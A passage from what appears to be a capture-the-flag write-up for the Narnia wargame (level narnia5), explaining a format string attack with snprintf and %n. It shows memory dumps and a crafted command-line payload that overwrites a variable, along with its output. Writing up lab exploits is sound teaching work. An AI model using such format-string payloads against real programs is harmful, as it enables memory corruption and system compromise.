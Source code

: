 ```ruby
0xffffd4a0: 0x01 0x00 0x00 0x00 0x00 0xa0 0xe2 0xf7
0xffffd4a8: 0x20 0xd0 0xff 0xf7 0x19 0x15 0xc2 0xf7
```

We see that `[ebp-0x8]` is still set to 1, even when we inputed 90 byte string to the buffer. as we can see, our long string is terminated with a null byte - 0x00 at `0xffffd49f`.
This is happening because the program intentionally puts null at the last byte of the string to prevent overflowing.

Since the program puts a null byte at `sizeof(buffer)-1`, we cannot simply pass a string longer than 64 bytes, because it will be terminated. We need to think of something else.

I'm not familiar with the `snprintf()` function. let's see how it works.

```C

narnia5@gibson:~$ man snprintf

<snipped>

int snprintf(char *str, size_t size, const char *format)

<snipped>

```

In our case, `argv[1]` is the format passed into `snprintf()`. This opens the opportunity for Format String Attack.

### Format String Attack
A format string attack is an attack vector that takes advantage of C language printf() format strings.
printf() format strings are used most commonly to print variable data, like `%d` for printing INT type variable, or `%s` for a string type.
But, `printf()` (or in our case `snprintf()` ) can also set data to a memory address!
This is done with the `%n` format.

>  `%n` reads the value stored in the current buffer pointer and write to that memory location the number of characters already printed

Great, now we need to find a way to make printf() print 500 chars, and using the %n format we will be able to input the number 500 into the `i` variable.

Luckily the program provides us the memory address of `i` which saves us work with gdb.
Great. Let's take advantage of that when creating our formatted string.

```ruby
**narnia5@gibson**:**/narnia**$ ./narnia5 $(echo -n -e "\x10\xd5\xff\xff\x10\xd5\xff\xffAAAA%n")
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [??????AAAA] (12)
i = 12 (0xffffd510)
```

After playing some time around with different strings, we can see that if we enter the address of `i` twice, we are able to changed it's value! in this example it is overwritten with the value 12, this is because the first 8 bytes is the address of `i` twice, followed by 4 more As. Total 12  bytes.
